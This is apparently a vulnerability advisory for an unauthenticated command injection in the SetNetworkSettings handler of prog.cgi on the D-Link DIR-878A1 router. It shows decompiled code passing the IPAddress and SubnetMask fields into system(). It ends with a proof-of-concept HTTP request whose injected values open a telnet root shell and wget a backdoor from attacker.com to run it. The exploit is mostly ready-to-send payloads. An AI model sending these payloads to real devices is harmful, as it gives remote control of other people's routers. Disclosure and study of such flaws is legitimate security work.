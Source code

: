 # Command Injection Vulnerability in `SetNetworkSettings`

1. Vulnerability Overview

| **Field**            | **Details**                                               |
| -------------------- | --------------------------------------------------------- |
| Affected Product     | D-Link DIR-878A1 Router                                   |
| Firmware Version     | **FW101B04.bin** (other versions require verification)    |
| Vulnerability Type   | **Unauthenticated Command Injection**                     |
| Vulnerable Component | `prog.cgi` (`SetNetworkSettings` handler function)        |
| Prerequisites        | No authentication required (remote exploitation possible) |

2. Exploitation Path

```c
// prog.cgi
int __fastcall sub_4330B0(int a1)
{
  ...
  VarString = (const char *)webGetVarString(a1, "/SetNetworkSettings/IPAddress");
  if ( !VarString )
    return WebsSetResponseResult(a1, 11);
  v7 = (const char *)webGetVarString(a1, "/SetNetworkSettings/SubnetMask");
  if ( !v7 )
    return WebsSetResponseResult(a1, 11);
  ...
  nvram_safe_set("lan0_ipaddr", VarString);
  if ( (unsigned int)strlen(VarString) >= 7 )
  {
    sprintf(v39, "echo %s >/proc/ipinfo/ip_addr", VarString);
    system(v39);
  }
  nvram_safe_set("lan0_netmask", v7);
  if ( (unsigned int)strlen(v7) >= 7 )
  {
    sprintf(v39, "echo %s >/proc/ipinfo/net_mask", v7);
    system(v39);
  }
  ...
}
```

3. **Vulnerable Binary:** `prog.cgi`.

4. 0-Day Command Injection Exploitation Path:

   - In `prog.cgi`, line 5: `VarString = (const char *)webGetVarString(a1, "/SetNetworkSettings/IPAddress")` receives user input, which is concatenated and passed to line 16: `system(v39)`, resulting in command injection.

   - In `prog.cgi`, line 8: `v7 = (const char *)webGetVarString(a1, "/SetNetworkSettings/SubnetMask")` receives user input, which is concatenated and passed to line 22: `system(v39)`, resulting in command injection.

5. Proof of Concept (PoC) for Reproducing the Vulnerability:

```http
POST /cgi-bin/prog.cgi HTTP/1.1
Host: 192.168.0.1
Content-Type: application/xml

<!-- IPAddress Injection -->
<SetNetworkSettings>
    <IPAddress>127.0.0.1; telnetd -l /bin/sh -p 2323 #</IPAddress>
    <SubnetMask>255.255.255.0</SubnetMask>
</SetNetworkSettings>

<!-- SubnetMask Injection -->
<SetNetworkSettings>
    <IPAddress>192.168.0.1</IPAddress>
    <SubnetMask>255.255.255.0; wget http://attacker.com/backdoor -O /tmp/bd; 
    sh /tmp/bd</SubnetMask>
</SetNetworkSettings>

<!-- Dual Injection -->
<SetNetworkSettings>
    <IPAddress>127.0.0.1; mkdir /tmp/exploit</IPAddress>
    <SubnetMask>255.255.255.0; chmod 777 /tmp/exploit</SubnetMask>
</SetNetworkSettings>
```